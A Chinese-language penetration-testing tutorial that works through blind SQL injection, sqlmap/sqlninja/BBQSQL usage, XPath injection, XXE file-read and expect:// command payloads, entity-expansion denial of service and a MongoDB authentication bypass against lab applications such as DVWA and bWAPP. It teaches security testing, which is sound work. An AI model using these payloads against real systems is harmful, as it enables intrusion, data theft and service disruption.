到目前为止，我们已经发现并利用了一个常见的 SQL 注入漏洞，请求的信息显示在服务器的响应中。但是，有一种不同类型的 SQL 注入，服务器响应不会显示实际的详细信息，而不管它是否存在。这就是所谓的**盲 SQL 注入**。

要检测盲目的 SQL 注入，您需要形成得到是或否响应的查询。这意味着当结果为正或负时，查询将以一致的方式响应，以便您可以区分其中一个。这可以基于响应的内容、响应代码或某些注入命令的执行。在最后一类中，最常用的方法是注入暂停命令，并根据响应时间检测真或假（基于时间的注入）。为了澄清这一点，让我们用 DVWA 做一个快速练习。您还将使用 Burp 套件来帮助重新提交请求。

在基于时间的注入中，形成查询，如果结果为真，则暂停处理*N*秒，如果结果为假，则不暂停执行查询。为此，请使用 MySQL 中的`SLEEP(N)`函数和 MS SQL Server 中的`WAITFOR DELAY '0:0:N'`函数。如果服务器需要这段时间来响应，则结果为 true。

首先，转到 SQL 注入（盲）。您将在另一个 SQL 注入练习中看到相同的用户 ID 文本框。如果您提交了一个号码，它会显示相应用户的名字和姓氏。但是，这一次，如果您提交撇号或单引号，则不会显示错误，而是显示空响应。但是如果您提交`1''`会发生什么？显示用户 1 的信息；所以它是可注射的：

**** 

让我们回顾一下您现在掌握的信息。存在 ID 为 1 的有效用户。如果您提交了一个不正确的查询或一个不存在的用户，结果只是一个空的信息空间。然后是正确和错误的状态。您可以通过提交`1' and '1'='1 and 1' and '1'='2`进行测试：

****

错误响应显示在以下屏幕截图中。请注意浏览器地址栏中某些字符的编码方式（例如，`'='`编码为`'%3D'`：



若要询问是/否问题，您必须将`'1'='1'`替换为应返回 true 或 false 的查询。您已经知道应用的数据库名称是`'dvwa'`。现在提交以下文件：



```
1' and database()='dvwa  
```

你会得到积极的回应。请记住，不包括第一个引号和最后一个引号，因为它们已经存在于应用的代码中。你怎么知道的？您需要逐个字符地迭代查找每个字母，并询问诸如“当前数据库名称是否以`?`开头”之类的问题。这可以通过表单或 Burp 的转发器一次完成一个字符，也可以通过 Burp 的入侵者自动完成。

从代理历史记录向入侵者发送有效请求，并设置输入，如以下屏幕截图所示：


注意`a`被设置为输入后，有`%25`。这是 URL 编码的`%`（百分比）字符。URL 编码由浏览器自动完成，有时服务器需要正确解释发送的字符。编码也可用于绕过某些基本验证过滤器。如前所述，百分比字符是匹配任何字符串的通配符。这里我们是说如果用户 ID 是`1`，那么当前数据库的名称以`a`开头，后面跟着任何内容；有效负载列表将是字母表中的所有字母以及 0 到 9 之间的数字。SQL 字符串比较不区分大小写，除非另有规定。这意味着`A`与`a`相同：



您现在有了输入位置和有效负载，但是如何区分真实响应和错误响应？您需要在 true 或 false 结果中匹配某些字符串。您知道，真正的响应总是包含`First name`文本，因为它显示了用户的信息。我们可以为此制定 Grep-Match 规则：


现在开始攻击，并查看`d`是否与真实响应匹配：


要查找第二个字符，只需在输入位置前加上`d`（结果）：


再次开始攻击，你会看到`v`是下一个角色：


继续此过程，直到所有可能的输入均未返回肯定响应。您还可以使用以下注入构造第一轮查询以获取名称的长度，并迭代最后一个数字，直到找到正确的长度值：

```
1'+and+char_length(database())=1+--+'  
```

请记住，由于入侵者不像浏览器那样添加编码，您可能需要自己添加编码或在有效负载配置中配置编码。这里我们用`+`符号替换了所有空格。另外，请注意，`char_length()`返回值是一个整数，因此需要添加注释并在之后关闭引号。

关于在最常见的 DBMS 中进行 SQL 注入的有用 SQL 命令，可以在 PentestMonkey 的 SQL 注入备忘单上找到一个很好的参考资料，网址为[http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection) 。

# 自动化开发

正如您在上一节中所看到的，利用 SQL 注入漏洞可能是一项棘手且耗时的任务。幸运的是，有一些有用的工具可供渗透测试人员用于自动化从易受攻击的应用中提取信息的任务。

即使此处提供的工具不仅可用于攻击漏洞，还可用于检测漏洞，但不建议您以这种方式使用它们，因为它们的模糊机制会产生大量流量；它们不容易监控，而且您对它们向服务器发出的请求种类的控制有限。这增加了数据损坏的风险，使诊断事件更加困难，即使保留了所有日志。

# 忍者

**sqlninja**工具可以帮助您利用使用 Microsoft SQL server 作为后端数据库的应用中的 SQL 注入缺陷。使用 sqlninja 工具的最终目标是通过 SQL 注入缺陷获得对数据库服务器的控制。sqlninja 工具是用 Perl 编写的，通过导航到应用数据库评估，可以在 Kali 中找到它。sqlninja 工具不能用于检测注入缺陷的存在，而是用于利用该缺陷获得对数据库服务器的 shell 访问。以下是 sqlninja 的一些重要功能：

*   用于对远程 SQL server 进行指纹识别，以识别版本、用户权限、数据库认证模式和`xp_cmdshell`可用性
*   用于通过 SQLi 上载目标上的可执行文件
*   用于与 Metasploit 集成
*   它通过模糊代码使用 WAF 和 IPS 规避技术
*   用于使用 DNS 和 ICMP 协议的 Shell 隧道
*   用于在旧版本的 MS SQL 上强制使用`sa`密码

sqlninja 工具类似于 sqlmap，可以与 Metasploit 集成，当该工具利用注入缺陷并创建本地 shell 时，您可以使用 Metasploit 通过`meterpreter`会话连接到目标服务器。sqlninja 需要的所有信息都保存在配置文件中。Kali Linux 中的一个示例配置文件保存在`/usr/share/doc/sqlninja/sqlninja.conf.example.gz`中。您需要使用`gunzip`命令提取它。您可以使用 Leafpad 编辑文件，并通过从代理（如 Burp）导出 HTTP 请求，将其保存在文件中。您还需要指定目标将连接到的本地 IP 地址。该工具附带了一个详细、分步的 HTML 指南，可以在名为`sqlninja-how.html`的文件中与配置相同的位置找到它。

该配置文件与下面的屏幕截图中所示的配置文件类似。`--httprequest_start--`和`--httprequest_end--`是标记，它们必须在 HTTP 请求的开始和结束处定义：


`sqlninja`工具包括几个模块，如下面的屏幕截图所示。创建它们的目的是使用不同的协议和技术访问服务器：


要开始利用，请输入以下内容：

```
sqlninja -f <path to config file > -m m  
```

sqlninja 工具现在将开始注入 SQL 查询以利用漏洞，完成后将返回一个`meterpreter`会话。使用此选项，您可以完全控制目标。数据库系统作为网络上的关键服务器，始终是恶意攻击者最有吸引力的目标。sqlninja 等工具可帮助您在对手攻击 SQL 注入缺陷之前了解其严重性。作为 IT 安全专家，攻击者获得对数据库服务器的 shell 访问权限是您最不希望看到的。

# BBQSQL

Kali Linux 包含一个专门为利用盲目 SQL 注入缺陷而创建的工具。**BBQSQL**是用 Python 编写的工具。它是一个菜单驱动的工具，询问几个问题，然后根据您的回答构建注入攻击。它是一个速度更快的工具，可以自动测试盲目的 SQL 注入缺陷，具有极高的准确性。

BBQSQL 工具可以配置为使用二进制或频率搜索技术。还可以对其进行定制，以便在来自应用的 HTTP 响应中查找特定值，以确定 SQL 注入是否有效。

如下面的屏幕截图所示，该工具提供了一个很好的菜单驱动向导。URL 和参数在第一个菜单和输出文件中定义，使用的技术和响应解释规则在第二个菜单中定义：


# sqlmap

**sqlmap**工具可能是目前可用的最完整的 SQL 注入工具。它自动化了发现 SQL 注入缺陷、准确猜测数据库类型以及利用注入缺陷控制整个数据库服务器的过程。一旦注入被利用，它也可以用作远程 shell，或者它可以触发 Metasploit 负载（如 MeterMeter）以进行更高级的访问。

sqlmap 的一些功能如下所示：

*   它为所有主要的数据库系统提供支持
*   它对基于错误的 SQL 注入和盲 SQL 注入都是有效的
*   它可以枚举表名和列名，还可以提取用户和密码哈希
*   它支持利用注入漏洞下载和上载文件
*   它可以使用不同的编码和篡改技术绕过过滤、WAFs 和 IP 等防御机制
*   它可以在数据库服务器上运行 shell 命令
*   它可以与 Metasploit 集成

在 Kali Linux 中，可以通过导航到应用|数据库评估来找到 sqlmap。要使用该工具，首先需要找到要测试 SQL 注入的输入参数。如果变量通过`GET`方法传递，您可以向 sqlmap 工具提供 URL，它将自动进行测试。您还可以显式地告诉 sqlmap 使用`-p`选项仅测试特定参数。在下面的示例中，我们正在测试`username`变量是否存在注入缺陷。如果发现有漏洞，`--schema`选项将列出信息模式数据库的内容。这是一个包含有关所有数据库及其表的信息的数据库：

```
sqlmap -u "http://10.7.7.5/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --schema  
```



如果使用`POST`方法传递要注入的参数，则可以提供一个 HTTP 文件作为`sqlmap`的输入，该文件包含头和参数。HTTP 文件可以使用代理（如 Burp）生成，方法是在捕获流量时复制“原始”选项卡下显示的数据。

该文件类似于以下屏幕截图中显示的文件：


然后可以将 HTTP 文件作为输入提供给`sqlmap`。`--threads`选项用于选择向应用并发 HTTP 请求的数量。`--current-db`选项将提取应用使用的数据库名称，`--current-user`提取应用连接到数据库的用户名称：

```
sqlmap -r bodgeit_login.txt -p username --current-db --current-user --threads 5  
```

此命令产生以下输出。数据库名称为`PUBLIC`，用户名称为`SA`：



识别数据库名称后，`--tables`和`--columns`选项可用于提取有关表和列的信息。此外，`--data`选项可用于定义`POST`参数，而不是使用包含请求的文件。注意使用`"`（引号）；它们用于使 Linux shell 将整套参数解释为单个字符串，并转义`&`（符号）字符，因为它是 Unix 系统命令行中的保留运算符：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public --tables  
```

您将看到以下输出：


为了从某些表中提取所有数据，我们使用`--dump`选项加`-D`来指定数据库，使用`-T`来指定表：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public -T users -dump  
```

让我们看一个输出示例：


攻击者的目标是利用 SQL 注入漏洞在服务器上获得进一步的立足点。使用 sqlmap，您可以利用注入缺陷在数据库服务器上读写文件，注入缺陷会调用目标上的`load_file()`和`out_file()`函数来完成该操作。在下面的示例中，我们正在读取服务器上的`/etc/passwd`文件的内容：

```
sqlmap -u "http://10.7.7.5/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --file-read /etc/passwd  
```


`sqlmap`工具提供的一些附加选项如下表所示：

| **选项** | **说明** |
| --- | --- |
| `-f` | 这将对数据库执行广泛的指纹 |
| `-b` | 这将检索 DBMS 横幅 |
| `--sql-shell` | 这将在成功利用该漏洞后访问 SQL shell 提示符 |
| `--schema` | 这将枚举数据库架构 |
| `--comments` | 这将在数据库中搜索注释 |
| `--reg-read` | 这将读取 Windows 注册表项值 |
| `--identify-waf` | 这标识了 WAF/IPS 保护 |
| `--level N` | 这将扫描级别（注入变体的数量和复杂性）设置为`N`（1-5） |
| `--risk N` | 这设置了请求的风险（1-3）；第 2 级包括大量基于时间的请求；级别 3 包括基于或的请求 |
| `--os-shell` | 这将尝试返回一个系统外壳 |

您可以在这个 GitHub 项目页面[上找到可以与 sqlmap 一起使用的所有选项的广泛列表 https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage) 。

# SQL 注入缺陷的潜在攻击

以下是用于操纵 SQL 注入缺陷的技术：

*   通过更改 SQL 查询，攻击者可以从数据库中检索普通用户无权访问的额外数据
*   通过从数据库中删除关键数据来运行 DoS 攻击
*   绕过认证并执行权限提升攻击
*   使用批处理查询，可以在单个请求中执行多个 SQL 操作
*   Advanced SQL 命令可用于枚举数据库的模式，然后更改结构
*   使用`load_file()`功能读取和写入数据库服务器上的文件，使用`into outfile()`功能写入文件
*   Microsoft SQL 等数据库允许操作系统命令通过使用`xp_cmdshell`的 SQL 语句运行；易受 SQL 注入攻击的应用可使攻击者完全控制数据库服务器，并通过它攻击网络上的其他设备

# XML 注入

本节将介绍在 web 应用中使用 XML 的两种不同观点：

*   当应用在 XML 文件或 XML 数据库中执行搜索时
*   当用户提交 XML 格式的信息以供应用分析时

# XPath 注入

**XPath**是一种用于从 XML 文档中选择节点的查询语言。以下是基本的 XML 结构：

```
<rootNode> 
  <childNode> 
    <element/> 
  </childNode> 
</rootNode> 
```

对**元素**的 XPath 搜索可以表示为：

```
/rootNode/childNode/element 
```

可以创建更复杂的表达式，例如，登录页面的 XPath 查询可能如下所示：

```
//Employee[UserName/text()='myuser' And Password/text()='mypassword'] 
```

与 SQL 一样，如果用户的输入按原样处理并连接到查询字符串，则此类输入可能被解释为代码而不是数据参数。

例如，让我们看一下 bWapp 的 XML/XPath 注入（搜索）练习。它显示一个下拉框，您可以在其中选择类型并搜索与此类型匹配的电影：



这里，`genre`是应用在服务器端执行的某些搜索的输入参数。要测试它，您需要创建一个搜索，同时让浏览器首先识别发送`genre`参数到服务器（`/bWAPP/xmli_2.php?genre=action&action=search`的请求，然后将其发送到 Repeater。您将使用代理（如 Burp Suite 或 ZAP）执行此操作。进入 Repeater 后，在流派中添加单个引用。然后，单击 Go 并分析响应：


通过添加单个引号，我们在响应中显示的应用中导致了语法错误。它清楚地表明正在使用 XPath。现在您需要知道查询是如何构造的。首先，让我们看看它是查找整个文本还是部分文本。删除该类型的最后几个字母，然后单击“开始”：



你可以看到，如果你只使用体裁的一部分，你仍然会得到与使用完整单词时相同的结果。这意味着查询正在使用`contains()`函数。您可以在[中查看源代码 https://github.com/redmondmj/bWAPP](https://github.com/redmondmj/bWAPP) ，因为它是一个开源应用。然而，让我们采用黑盒方法；因此，它可能类似于以下内容：

```
.../node[contains(genre, '$genre_input')]/node... 
```

虽然您可能不知道完整的查询，但您可以对`[contains(genre, '$genre_input')]`或类似的内容有很高的信心。

现在尝试一种更精细的注入，尝试检索注入的 XML 文件中的所有记录：

```
')]/*|//*[contains('1','1 
```



您可以看到，响应包含的信息比原始查询多得多，并且应用不会在正常搜索中显示其中一些信息。

# XCat 的 XPath 注入

**XCat**是一个用 Python 3 编写的工具，它可以帮助您使用 XPath 注入漏洞检索信息。默认情况下，它不包括在 Kali Linux 中，但可以轻松添加。您需要在 Kali Linux 中安装 Python 3 和 pip，然后在 Terminal 中运行以下操作：

```
apt-get install python3-pip
pip3 install xcat
```

安装 XCat 后，您需要在 bWAPP 中进行认证，以获取易受攻击的 URL 和 cookie，这样您就可以发出具有以下结构的命令：

```
xcat -m <http_method> -c "<cookie value>" <URL_without_parameters> <injecable_parameter> <parameter1=value> <parameter2=value> -t "<text_in_true_results>" 
```

在这种情况下，命令如下所示：

```
xcat -m GET -c "PHPSESSID=kbh3orjn6b2gpimethf0ucq241;JSESSIONID=9D7765D7D1F2A9FCCC5D972A043F9867;security_level=0" http://10.7.7.5/bWAPP/xmli_2.php genre genre=horror action=search -t ">1<" 
```

请注意，我们使用`">1<"`作为真正的字符串。这是因为只有在找到至少一个结果时，结果表中的数字才会出现。对 bWAPP 运行该命令将导致如下结果：


# XML 外部实体注入

在 XML 中，**实体**是一个存储单元，可以是内部的，也可以是外部的。内部实体是在其声明中定义了其值的实体，外部实体从外部资源（如文件）获取该值。当应用接收到来自用户的 XML 格式的输入并处理其中声明的外部实体时，它容易受到**XML 外部实体**（**XXE**注入的攻击。

我们将再次使用 bWAPP，使用/A7-缺少功能级访问控制/中的 XEE 练习来实现这一点。在那里，你只会看到带有按钮的文本，当你点击它时，似乎什么也没有发生。但是，让我们检查代理记录的请求：



因此，这里您发送的是一个包含用户名和一些秘密的 XML 结构。您将请求发送到 Repeater 以进一步分析和测试它。首先，尝试创建一个内部实体，并查看服务器是否处理它。为此，请提交以下 XML：

```
<!DOCTYPE test [ <!ENTITY internal-entity "boss" >]> 
<reset><login>&internal-entity;</login><secret>Any bugs?</secret></reset> 
```



在这里，我们创建了一个名为`internal-entity`的实体，其中包含`"boss"`值，然后我们使用该实体替换登录值，该值反映在响应中。这意味着通过该实体加载的任何内容都将由服务器处理和反映。

尝试按如下方式加载文件：

```
<!DOCTYPE test [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> 
```



使用`SYSTEM`定义外部实体。这将加载一个文件（`/etc/passwd`，服务器在其响应中显示结果。

如果解析器配置不正确，并且加载了`expect`PHP 模块，您还可以通过 XES 获得远程执行：

```
<!DOCTYPE test [  <!ENTITY xxe SYSTEM "expect://uname -a" >]> 
```

# 实体扩展攻击

即使解析器不允许外部实体，允许内部实体仍然可能被恶意用户利用，并导致服务器中断。当所有 XML 解析器用定义的值替换实体时，可以创建一组递归实体，以便服务器可以处理大量信息，直到无法响应为止。

这称为**实体扩展攻击**。以下结构是一个简单的概念证明：

```
<!DOCTYPE test [  
<!ENTITY entity0 "Level0-"> 
<!ENTITY entity1 "Level1-&entity0;"> 
<!ENTITY entity2 "Level2-&entity1;&entity1;"> 
<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;"> 
<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;"> 
<!ENTITY entity5 "Level5-&entity4;&entity4;&entity4;&entity4;&entity4;"> 
]> 
<reset><login>&entity0;</login><secret>Any bugs?</secret></reset> 
```


在这里，您可以看到加载`entity5`时会发生什么。所有其他实体也将被加载。这些信息在处理时存储在服务器的内存中，因此，如果发送的负载足够大或递归足够深，可能会导致服务器内存不足，无法响应用户的请求。

现在让我们看看加载`entity5`时响应的大小是如何变化的：


重要的是要记住，在对实际应用进行渗透测试时，除非客户机另有规定，否则必须极其小心地进行此类测试，并且只能在您能够证明存在漏洞而不会导致服务中断的情况下进行测试。在这种情况下，应采取特殊的环境和特殊的测井和监测措施。至于实体扩展攻击，演示六到七个级别的递归就足以作为概念证明。还应考虑响应时间。

# NoSQL 注射液

近年来，**大数据**或以不同版本、不同目的存储、处理和分析海量信息的功能正日益在不同规模的公司中推广和实施。这类信息通常是非结构化的，或来自不一定兼容的源。因此，它需要存储在某种特殊类型的数据库中，所谓的**不仅仅是 SQL**（**NoSQL**）数据库，如 MongoDB、CouchDB、Cassandra 和 HBase。

上述数据库管理器不使用 SQL（或不专门使用 SQL）并不意味着它们没有注入风险。请记住，SQL 注入漏洞是由发送查询的应用（而不是处理查询的 DBMS）中缺少验证引起的。向 NoSQL 数据库的查询中注入代码或修改的参数是可能的，而且并不少见。

# NoSQL 注射剂的检测

NoSQL 查询通常以 JSON 格式完成。例如，MongoDB 中的查询可能如下所示：

```
User.find({ username: req.body.username, password: req.body.password }, ... 
```

要在使用 MongoDB 数据库的应用中注入代码，您需要利用 JSON 语法，使用诸如`' " ; { }`之类的字符，并形成有效的 JSON 结构。

# 开发 NoSQL 注入

要测试实际利用漏洞的工作方式，您可以使用 Snyk（[制作的易受攻击的应用 https://github.com/snyk/goof](https://github.com/snyk/goof) ）。要运行此应用，需要在目标服务器上安装 Node.js 和 MongoDB 并正确运行。

您应该尝试绕过“管理”部分中的密码检查的注入攻击。设置代理后，浏览到易受攻击应用的管理部分。在本例中，它将是`http://10.0.2.2:3001/admin`。如果您提交用户`admin`和任何密码，您可以看到没有授予访问权限。


若您将该请求发送到中继器，您可以看到它正在发送两个参数：`username`和`password`。您应该将请求格式更改为 JSON。为此，您需要更改`Content-Type`标题的值和参数的格式：



如果您提交该请求，服务器似乎会接受它，因为不会生成错误。因此，为了清楚起见，让我们使用 JSON 格式的实际`admin`密码来确保它确实被接受：


现在您知道了它的工作原理，请尝试注入一个条件而不是密码值，以便验证始终为真。然后查询会说，“如果用户名为`admin`且密码大于空字符串”：

```
{"username":"admin","password":{"$gt":""}}  
```

`$gt`是 MongoDB 的特殊查询运算符，表示大于（`>`的二进制运算。更多操作员和注入管柱可在[找到 https://github.com/cr0hn/nosqlinjection_wordlists](https://github.com/cr0hn/nosqlinjection_wordlists) 。

NoSQLMap（[https://github.com/codingo/NoSQLMap.git](https://github.com/codingo/NoSQLMap.git) 是一个开源工具，不包含在 Kali Linux 中，但易于安装。它可以用于自动化 NoSQL 注入检测和利用。

# 注入漏洞的缓解和预防

